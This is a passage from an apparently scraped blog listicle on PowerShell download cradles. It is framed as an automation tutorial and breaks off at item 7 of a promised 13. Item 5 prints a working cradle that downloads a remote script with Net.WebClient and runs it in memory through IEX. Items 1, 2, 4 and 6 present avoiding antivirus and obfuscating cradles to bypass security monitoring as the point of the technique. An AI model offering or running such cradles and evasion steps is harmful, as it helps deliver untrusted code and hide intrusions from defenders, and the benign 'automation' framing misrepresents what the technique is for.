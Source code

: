 # 13 Essential Things to Know about PowerShell Download Cradles 
*The mystery of PowerShell download cradles will be unveiled in this article. Keep reading to learn how these powerful tools can help you elevate your automation game to a whole new level.*
_Once upon a time, in the vast world of scripting and automation, there was a tool so powerful it forever changed the way experts managed and administered their computer systems. This tool, known as Windows PowerShell, has become an essential part of every software engineer’s toolkit. As helpful as PowerShell may be, many are unaware of one of its key components: the PowerShell download cradle. In this article, we will cover **what is a PowerShell download cradle** and provide insights into using it effectively._

***1. What is a PowerShell Download Cradle?***
_A PowerShell download cradle is a technique that allows users to download and execute code on a target system using PowerShell scripts. By utilizing built-in functions and cmdlets, engineers can retrieve remote resources, such as files or scripts, and execute them directly in-memory. This avoids writing to disk and reduces the chances of triggering security mechanisms like antivirus software._
***
***2. Download Cradle vs. Traditional File Transfer Methods.*** 
_Traditional file transfer methods like FTP or HTTP usually require writing a file to disk, opening opportunities for detection by security software. Download cradles, on the other hand, allow code execution in-memory, without touching the filesystem. This makes them indispensable when trying to minimize exposure from security monitoring tools._
***
***3. Common PowerShell Cmdlets Used in Download Cradles.***
_Download cradles leverage various cmdlets to achieve their goal. Some of these include:_
– `Invoke-WebRequest`: Retrieves content from a web page. 
– `Invoke-Expression`: Executes a specified string as a PowerShell command. 
– `System.Net.WebClient`: A .NET class that enables interaction with web servers. 
These cmdlets form the backbone of most PowerShell download cradles.
***
***4. Download Cradle Syntax Variability.***
_When creating a PowerShell download cradle, there is no single ```correct``` syntax. Users can take advantage of several techniques, such as using different cmdlets, aliases, or parameter names to create unique and obfuscated cradles that bypass security measures._
***
***5. Example of a Basic PowerShell Download Cradle.***
_To better understand what a download cradle looks like, let’s consider a simple example:_

` 
powershell.exe -NoP -C “IEX(New-Object Net.WebClient).DownloadString(‘http://example.com/myscript.ps1’)” 
`  
  
In this example, `IEX` is an alias for `Invoke-Expression`. The `Net.WebClient` object retrieves the content of ``http://example.com/myscript.ps1``, and `Invoke-Expression` executes it in-memory.  

***
***6. Obfuscating Your Download Cradle***

_To avoid detection from security tools, you may need to obfuscate your download cradle. This can involve using aliases, changing capitalization or whitespace, or employing encoding techniques._
***
***7. Limitations of PowerShell Download Cradles.*** 
